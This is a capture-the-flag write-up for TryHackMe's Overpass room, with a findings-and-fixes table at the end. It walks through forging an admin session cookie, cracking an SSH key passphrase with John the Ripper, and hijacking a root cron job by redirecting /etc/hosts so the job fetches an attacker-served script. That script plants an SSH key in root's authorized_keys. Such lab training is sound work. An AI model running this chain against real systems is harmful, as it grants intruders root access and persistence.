# Overpass — TryHackMe write-up

**Platform:** [TryHackMe](https://tryhackme.com/room/overpass)  
**Difficulty**: Easy
**Focus:** web authentication, exposed SSH key, offline passphrase recovery, source review, writable hosts file, cron privilege escalation
**Room Author**: NinjaJc01

## Summary

The Overpass administrator page accepted an arbitrary `SessionToken` cookie and disclosed an encrypted SSH private key for `james`. I recovered its passphrase with John the Ripper and logged in over SSH. On the host, a root cron job fetched a script from `overpass.thm`, while `james` could edit `/etc/hosts`. Redirecting that hostname to a server I controlled made the job run my script as root.

## 1. Reconnaissance

I scanned all TCP ports with Nmap's default scripts and service detection:

```bash
TARGET='10.80.139.131'  # Replace with your current lab IP
nmap -Pn -sV -sC -p- --open "$TARGET"
```

The scan found SSH on **22/tcp** and HTTP on **80/tcp**.



The site presented Overpass as a password manager. I inspected it manually and enumerated paths with `feroxbuster`:

```bash
feroxbuster -u "http://$TARGET/" \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin/` led to a login form. A few manual username and password guesses returned the same “Incorrect Credentials” message; that response did not distinguish a valid username from an invalid one.





## 2. Administrator page through a forged cookie

I inspected the JavaScript loaded by the login page. The client sent credentials to `/api/login` and, unless the response text was exactly `Incorrect Credentials`, stored that response as a cookie named `SessionToken` before navigating to `/admin`.



The client-side code suggested a useful test: would the server actually validate that token? In browser Developer Tools, I created a cookie named `SessionToken` with the value `value` for the target site and reloaded `/admin/`. The page displayed administrator content. This result demonstrates that the administrator endpoint accepted my arbitrary cookie value.



The page disclosed an RSA private key for `james`, with a note indicating that the key was passphrase protected. I saved the key locally:

```bash
# Save the complete key as id_rsa using an editor, preserving its line breaks.
chmod 600 id_rsa
ssh -i id_rsa james@"$TARGET"
```

SSH prompted for a passphrase. I converted the encrypted private key into a format John the Ripper could test and ran a wordlist attack locally:

```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

John found the passphrase, which I supplied when SSH prompted again.

## 3. SSH access and local investigation

Using the recovered passphrase, I logged in as `james`. `id` confirmed `uid=1001(james)`, and I located `user.txt` in the home directory.

```bash
ssh -i id_rsa james@"$TARGET"
id
```



`james` had a `.bash_history` symlink to `/dev/null`, so that file did not preserve a useful command history. A `todo.txt` note mentioned the Overpass password manager and its source code. I returned to the site's **Downloads** page and opened `/downloads/src/overpass.go`.





![[rot47-source.png]]

![[rot47-source.png]]

The source implemented a fixed ROT47 transformation for stored passwords and loaded credentials from a `.overpass` file in the user's home directory. ROT47 is reversible obfuscation, without a secret encryption key. I read `/home/james/.overpass` and decoded the stored value to recover a possible account password. That password let me check `sudo -l`, but `james` had no permitted `sudo` commands. The account password was a dead end.

```bash
cat /home/james/.overpass
sudo -l
```



## 4. Root cron job and hostname control

I checked the system cron configuration:

```bash
cat /etc/crontab
cat /etc/hosts
ls -l /etc/hosts
```



The output shows a root-run job fetching `/downloads/src/buildscript.sh` from `overpass.thm` and piping the response to `bash`. The hostname mapped to `127.0.0.1` in `/etc/hosts`, and `james` could edit that file.

The combination mattered: changing the mapping for `overpass.thm` made the root job request the same script path from my lab machine. I changed the existing hosts entry to point to my VPN address instead of 127.0.0.1 . On my own machine, I generated a new SSH key pair and prepared the path the job requested:

```bash
ssh-keygen -t ed25519 -f ./overpass-root -N ''
cat ./overpass-root.pub
mkdir -p webroot/downloads/src
```

I put the **public** key in `webroot/downloads/src/buildscript.sh` and served `webroot` over HTTP. The example below shows the essential action; `YOUR_ED25519_PUBLIC_KEY` stands for the full output from `overpass-root.pub`.

```bash
#!/bin/sh
mkdir -p /root/.ssh
printf '%s\n' 'YOUR_ED25519_PUBLIC_KEY' >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

```bash
# Run from the webroot directory, in a separate terminal.
sudo python3 -m http.server 80
```

After the scheduled job requested the script, my public key was in root's `authorized_keys`. I logged in with the matching private key and confirmed root access. I found `root.txt` in `/root/`.

```bash
ssh -i ./overpass-root root@"$TARGET"
id
```



## Findings and fixes

| Finding                                                           | Evidence in this lab                                                   | Recommended fix                                                                                              |
| ----------------------------------------------------------------- | ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------ |
| Administrator endpoint accepted an arbitrary `SessionToken` value | A manually created cookie opened `/admin/`.                            | Validate sessions server-side and bind tokens to authenticated users; reject unknown values.                 |
| Administrator page exposed an encrypted SSH private key           | The page contained `james`'s complete key.                             | Remove private keys from web content, revoke the exposed key, and issue a replacement.                       |
| Weak passphrase for the exposed key                               | John recovered the key passphrase with a wordlist.                     | Protect private keys with strong, unique passphrases; rotate this key.                                       |
| Overpass stored passwords with ROT47                              | Published source showed the reversible transform and `.overpass` path. | Use authenticated encryption with properly managed keys for a password manager.                              |
| `james` could change hostname resolution used by a root job       | Editing `/etc/hosts` redirected the scheduled request.                 | Make `/etc/hosts` root-writable only; avoid fetching and directly executing mutable network content as root. |

**Takeaway:** The most consequential step was connecting the writable hosts file to the root cron job. I confirmed the web weakness by testing the server with an arbitrary cookie, then followed the exposed key to SSH and used the scheduled request to reach root.
